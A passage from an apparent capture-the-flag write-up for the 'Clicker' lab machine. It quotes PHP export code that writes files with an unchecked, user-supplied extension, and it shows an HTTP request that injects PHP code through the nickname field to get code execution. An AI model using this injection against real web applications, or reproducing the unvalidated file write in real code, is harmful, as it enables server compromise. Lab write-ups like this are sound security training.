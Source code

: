 ```php
  $s .= json_encode($data);
} else {
  $s .= '<table>';
  $s .= '<thead>';
  $s .= '  <tr>';
  $s .= '    <th scope="col">Nickname</th>';
  $s .= '    <th scope="col">Clicks</th>';
  $s .= '    <th scope="col">Level</th>';
  $s .= '  </tr>';
  $s .= '</thead>';
  $s .= '<tbody>';
  $s .= '  <tr>';
  $s .= '    <th scope="row">' . $currentplayer["nickname"] . '</th>';
  $s .= '    <td>' . $currentplayer["clicks"] . '</td>';
  $s .= '    <td>' . $currentplayer["level"] . '</td>';
  $s .= '  </tr>';

  foreach ($data as $player) {
    $s .= '  <tr>';
    $s .= '    <th scope="row">' . $player["nickname"] . '</th>';
    $s .= '    <td>' . $player["clicks"] . '</td>';
    $s .= '    <td>' . $player["level"] . '</td>';
    $s .= '  </tr>';
  }
  $s .= '</tbody>';
  $s .= '</table>';
}

$filename = "exports/top_players_" . random_string(8) . "." . $_POST["extension"];
file_put_contents($filename, $s);
header('Location: /admin.php?msg=Data has been saved in ' . $filename);
```

It saved the top players information in a file in the exports folder. I could request different file extensions. It formatted the output differently for txt and json files. Every other extensions would export html. And there was no validation around the extensions. So I could request a PHP file and control what would end up in it by setting the nickname of my user.

I tried setting my nickname to some simple PHP code to test it.

```php
GET /save_game.php?clicks=20000000&level=30000000&nickname=%3C%3Fphp%20echo%20%27IN%27%3B%3F%3E HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=9nj0jaelkdd97jpn2llqe0ts11
Upgrade-Insecure-Requests: 1
```
